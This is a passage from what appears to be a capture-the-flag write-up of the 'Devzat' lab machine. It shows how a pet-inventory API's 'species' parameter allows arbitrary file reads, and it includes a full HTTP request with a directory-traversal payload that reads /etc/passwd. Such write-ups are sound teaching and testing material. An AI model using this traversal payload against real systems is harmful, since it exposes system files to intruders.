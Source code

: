 This triggers another request to `/api/pet` to update the page.

---

## Initial Access: Pet Inventory Arbitrary File Read

It appears that adding a pet with a nonexistent species results in a `Characteristics` column value `exit status 1`. This indicates that some kind of shell command is being leveraged to retrieve the `Characterics` value. In fact, it appears that the application is attempting to read the `Characteristics` from a file whose name is the `species` value.

Indeed, the `species` parameter of the `POST /api/pet` request is vulnerable to directory traversal.

```http
POST /api/pet HTTP/1.1
Host: pets.devzat.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://pets.devzat.htb/
Content-Type: text/plain;charset=UTF-8
Origin: http://pets.devzat.htb
Content-Length: 47
Connection: close

{"name":"'","species":"../../../../etc/passwd"}
```

![](images/Pasted%20image%2020220313201005.png)
